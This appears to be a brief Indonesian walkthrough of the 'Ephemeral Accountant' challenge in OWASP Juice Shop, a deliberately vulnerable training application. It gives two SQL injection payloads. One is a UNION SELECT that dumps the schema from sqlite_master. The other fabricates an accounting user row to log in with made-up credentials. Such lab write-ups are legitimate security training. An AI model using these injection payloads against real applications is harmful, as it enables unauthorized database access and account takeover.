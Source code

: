 # 1. Ephemeral Accountant

# 2. https://juice-shop.herokuapp.com/#/score-board?categories=Injection&showDisabledChallenges=false

# 3. Penyelesaian

a. Cek struktur database yang digunakan menggunakan ```banana'))+UNION+SELECT+sql1,2,3,4,5,6,7,8,9+FROM+sqlite_master--```

<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/3401ba82-05cb-41f5-96e7-899d99fbabcd" />

b. Gunakan payload ```payload ' UNION SELECT * FROM (SELECT 20 AS id, 'acc0unt4nt@juice-sh.op' AS username, 'acc0unt4nt@juice-sh.op' AS email, 'test1234' AS password, 'accounting' AS role, '123' AS deluxeToken, '1.2.3.4' AS lastLoginIp, '/assets/public/images/uploads/default.svg' AS profileImage, '' AS totpSecret, 1 AS isActive, 12983283 AS createdAt, 133424 AS updatedAt, NULL AS deletedAt) AS tmp WHERE '1'='1';--```

<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/18934986-93c0-4a2a-aa69-d751d040449c" />

<img width="1284" height="54" alt="image" src="https://github.com/user-attachments/assets/e22c5ca6-a88e-4fdf-be04-d54aa9ab7af7" />
